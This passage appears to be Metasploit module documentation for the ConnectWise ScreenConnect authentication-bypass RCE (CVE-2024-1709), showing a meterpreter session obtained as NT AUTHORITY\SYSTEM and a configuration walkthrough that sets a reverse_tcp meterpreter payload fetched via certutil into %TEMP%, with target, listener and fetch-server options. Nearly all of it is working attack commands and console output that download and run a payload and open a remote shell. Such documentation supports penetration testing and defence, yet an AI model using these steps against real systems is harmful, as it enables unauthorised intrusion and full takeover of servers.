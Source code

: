 ```

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > exit
[*] Shutting down session: 1

[*] 192.168.86.50 - Meterpreter session 1 closed.  Reason: Died
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```

#### Windows Command
Note: The `FETCH_WRITABLE_DIR` should be set to a suitable value like `%TEMP%`.

```
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 1
target => 1
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_COMMAND CERTUTIL 
FETCH_COMMAND => CERTUTIL
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_WRITABLE_DIR %TEMP%
FETCH_WRITABLE_DIR => %TEMP%
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      qawpczANW        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port
```